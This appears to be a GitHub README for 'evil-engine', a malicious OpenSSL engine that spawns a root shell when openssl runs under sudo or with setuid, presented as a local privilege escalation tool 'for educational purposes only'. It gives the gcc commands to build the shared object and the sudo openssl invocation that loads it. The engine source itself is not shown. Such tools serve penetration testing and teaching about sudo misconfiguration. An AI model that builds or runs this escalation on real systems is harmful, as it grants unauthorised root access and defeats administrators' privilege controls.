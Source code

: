 # evil-engine
Evil openSSL engine that drops a root shell when openssl can either be executed with sudo or is saved with setuid.
Can be used for local privilege escalation 

In some rare cases, administrators allow a local user to run openssl with root level privileges, this engine allows you get a root shell.

***For educational purposes only***


## Dependencies
- openssl header files

**Note**
There could be some version dependencies so make sure you use the same openssl version (engine.h).  
Also make sure to compile for 32 or 64 bit, depending on the openssl version running on the remote system.

To configure openssl for 32 bit on a 64 bit system use:
```
setarch i386 ./config -m32
```

Then use gcc -m32 to compile this evil-engine

## Create the engine

```
# Compile: 
gcc -fPIC -o evil-engine.o -c evil-engine.c
# Create shared object file:
gcc -shared -o evil-engine.so -lcrypto evil-engine.o
```
## Use with openssl
```
sudo openssl req -engine $(pwd)/evil-engine.so
```

## Demo
![](evil-engine.png)